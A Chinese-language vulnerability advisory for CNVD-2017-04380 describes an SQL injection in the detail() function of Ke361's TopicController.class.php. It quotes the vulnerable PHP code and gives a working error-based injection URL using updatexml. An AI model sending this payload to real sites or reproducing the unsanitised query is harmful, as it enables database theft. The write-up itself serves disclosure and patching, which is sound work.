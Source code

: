 # Ke361 TopicController.class.php SQL注入漏洞 CNVD-2017-04380

## 漏洞描述

Ke361 TopicController.class.php 文件中 detai() 函数中存在 SQL注入漏洞

## 漏洞影响

<a-checkbox checked>Ke361</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://gitee.com/jcove/ke361</a-checkbox></br>

## 漏洞复现

CMS产品页面

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35-20220313233038062.png)

存在漏洞的文件为 Application/Home/Controller/TopicController.class.php, 漏洞函数详情

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634130716694-90c53d57-e2ca-493b-b2bf-9818d32aa53a.png)

```php
public function detail(){
         $id = I('id');
         $where['tid'] = $id;
         $TopicModel = new TopicModel();
         $topicInfo = $TopicModel->info($id);
        //  if(empty($topicInfo)){
        //      $this->error('您查看的专题不存在哦！');
        //  }
  			//  这里注释掉，默认不存在专题
         M('Topic')->where('id='.$id)->setInc('hits');
         $this->setSiteTitle($topicInfo['title']);
         $goods = $this->lists(D('Goods'),$where);
         foreach ($goods as $k=>$v){
             $goods[$k]['url'] = U('/goods/'.$v['id']);
         }
         $this->assign('goods',$goods);
         $this->assign('topic',$topicInfo);
         $this->display();
     }
```

这里接收参数 id，然后执行SQL语句,  通过报错注入可以获取数据库数据

```php
/index.php?s=/Topic/detail/id/1)%20%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634131389913-54f72ef9-6d47-43b1-8a95-9ba529a652d5.png)

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/1634131412368-f024f92d-725a-43d0-9235-fdb720c0b8f7.png)